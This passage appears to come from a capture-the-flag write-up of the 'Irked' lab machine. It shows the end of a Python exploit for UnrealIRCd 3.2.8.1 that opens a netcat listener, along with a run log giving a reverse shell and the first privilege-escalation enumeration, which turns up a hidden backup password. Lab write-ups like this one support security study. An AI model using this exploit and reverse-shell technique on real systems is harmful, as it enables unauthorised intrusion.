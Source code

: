      27 print("[*] Opening listener. Callback should come within a minute")
     28 try:
     29     ncsh = subprocess.Popen(f"nc -nl {lhost} {lport}", shell=True)
     30     ncsh.poll()
     31     ncsh.wait()
     32 except:
     33     print("\n[!] Exiting shell")
    

Here’s what it does:

  * Checks for right number of args and set variables, or prints usage. [Lines 7-11]
  * Connects to the host, gets first message from host. [13-20]
  * Sends payload and closes socket. [22-25]
  * Uses `subprocess` to run a `nc` listener, waits for callback, and then lets me interact with it until ctrl-c to exit. [27-33]

Here’s how it runs:

    
    
    root@kali# ./unreal_3.2.8.1_exploit.py 10.10.10.117 6697 10.10.14.14 443
    [*] Connecting to 10.10.10.117:6697
    [*] Sending payload
    [+] Payload sent. Closing socket.
    [*] Opening listener. Callback should come within a minute
    bash: cannot set terminal process group (634): Inappropriate ioctl for device
    bash: no job control in this shell
    ircd@irked:~/Unreal3.2$ id
    id
    uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
    

## Privesc: ircd –> djmardov

### Enumeration

I can find `user.txt`, but I can’t read it:

    
    
    ircd@irked:/home/djmardov/Documents$ cat user.txt 
    cat: user.txt: Permission denied
    

In that same directory, there’s a hidden `.backup` file:

    
    
    ircd@irked:/home/djmardov/Documents$ ls -la
    total 16
    drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
    drwxr-xr-x 18 djmardov djmardov 4096 Nov  3 04:40 ..
    -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
    -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
    
    ircd@irked:/home/djmardov/Documents$ cat .backup
    Super elite steg backup pw
    UPupDOWNdownLRlrBAbaSSss
    